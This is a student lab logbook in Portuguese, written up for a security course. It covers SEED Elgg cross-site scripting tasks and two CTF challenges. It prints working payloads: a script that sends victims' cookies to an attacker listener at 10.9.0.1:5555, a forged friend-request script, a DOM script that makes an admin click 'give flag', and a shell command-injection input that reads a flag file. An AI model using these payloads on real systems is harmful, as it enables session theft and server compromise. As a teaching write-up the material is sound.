 # LOGBOOK 10

## Task 1

A task 1 diz para injetar o código ```<script>alert(’XSS’);</script>``` algures no perfil de um utilizador para que, semore que um utilizador visualizar o perfil atacado, o script correr. Como tal, escolhemos escrever o codigo malicioso na secção 'Brief Description', tal como sugerido no guião.

![image-27.png](./image-27.png)

## Task 2

Adicionamos ao código malicioso da task anterior o seguinte ```<script>alert(document.cookie);</script>```.

![image-26.png](./image-26.png)

O output é o seguinte:

![image-28.png](./image-28.png)

## Task 3

Adicionar este código ao field 'brief description' ```<script>document.write(’<img src=http://10.9.0.1:5555?c=’+ escape(document.cookie) + ’   >’);</script>```. 
Verificamos que de facto foi enviado um GET request com a cookie no body.

![image-29.png](./image-29.png)

## Task 4

Para perceber como funcionam 'friend requests', enviamos um friend request a um utilizador qualquer a partir do perfil de Boby e analisamos o pedido HTTP associado.

![image-32.png](./image-32.png)

Portanto, a estrutura do link para adicionar um amigo é a seguinte:

```http://www.seed-server.com/action/friends/add?friend=56&__elgg_ts=1670425500&__elgg_token=aePQcRQACV3ktQJ8QByzdg&__elgg_ts=1670425500&__elgg_token=aePQcRQACV3ktQJ8QByzdg```

No guião é fornecido um excerto de códio javascript para forjar um pedido de amizade, no qual já existem as variáveis ts e token, que correspondem à segunda parte do URL. Por isso, para garantir que o pedido de amizade que vai ser feito ilicitamente é para o Samy, resta mudar o ID de friend que está no URL, para o de Samy.

Para determinar o ID de Samy enviamos um pedido através da conta de Boby a Samy, pelo que descobrimos que id = 59.


Portanto, o código final será:

```
<script type="text/javascript">

	window.onload = function () {
		var Ajax=null;
		var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
		var token="&__elgg_token="+elgg.security.token.__elgg_token;¡

		//Construct the HTTP request to add Samy as a friend.
		
		var sendurl=http://www.seed-server.com/action/friends/add?friend=59+ts+token+ts+token;  
		
		//Create and send Ajax request to add friend
		
		Ajax=new XMLHttpRequest();
		Ajax.open("GET", sendurl, true);	
		Ajax.send();
	}

</script>

```

Escrevemos, como indicado, o código javascript na secção 'About Me' do perfil de Samy, com o modo 'Edit HTML' ativo

![image-30.png](./image-30.png)

Quando visitamos a página de Samy e fazemos reload à mesma verificamos que o botão "Add Friend" se altera para "Remove Friend" pelo que confirmamos o sucesso do ataque.

Pergunta 1: 

Os pedidos enviados para o servidor contêm as tokens e os timestamps no URL para garantir que os pedidos são autênticos e não sofreram alterações, pelo que o URL no nosso código malicioso precisa de ser válido para o servidor responder a ele portanto, é mandatório incluir ts e token no mesmo.

Pergunta 2:

Não, pois, presumivelmente, o modo de texto executa o HTML inserido, ao passo que o outro modo apenas copia a informação inserida e trata-a como string 


# CTF 10

## Desafio 1

Como o tema desta semana é Cross-Site Scripting, assume-se que o input do website não esteja protegido contra injeção de código malicioso. 
Para testar as águas, fizemos uma primeira submissão, com o texto "please".

![image-33.png](./image-33.png)

Depois de alguns segundos, quando a página recarrega automaticamente, o resultado aparece e vemos que o nosso pedido foi rejeitado. 
O objetivo é que o admin, quando clica no botão "Mark Request as read", o botão "Give the flag" seja também clicado. Para isso injetamos um script em que alteramos o DOM da página HTML:

```
<script>
document.getElementById("markAsRead").onclick = function(){ 
    document.getElementById("giveflag").click(); 
	return false;
}
</script>
```
Submetemos o script e aguardamos o resultado.

![image-34.png](./image-34.png)

Sucesso! Conseguimos a flag :)

![image-31.png](./image-31.png)


## Desafio 2

Este desafio, começa numa página de Login, para simular a página associada a um router. Existe uma secção para fazer ping a hosts. Experimentamos fazer ping a 8.8.8.8 e o resultado foi o seguinte: 

![image-35.png](./image-35.png)

Este resultado é igual ao do comando bash "ping 8.8.8.8" no linux, pelo que achámos que o servidor talvez estivesses a correr uma shell para fazer ping ao host inserido. Por isso, experimentámos inserir o input "8.8.8.8 && ls"

![image-36.png](./image-36.png)

Como é possível verificar, as nossas suspeitas foram confirmadas, pelo facto de terem sido printed os nomes dos ficheiros. Como sabemos que a flag está na diretoria /flags/flag.txt, basta correr o seguinte:

```8.8.8.8 && cd / && cd flags && cat flag.txt```

![image-37.png](./image-37.png)

Sucesso! Conseguimos a flag :)
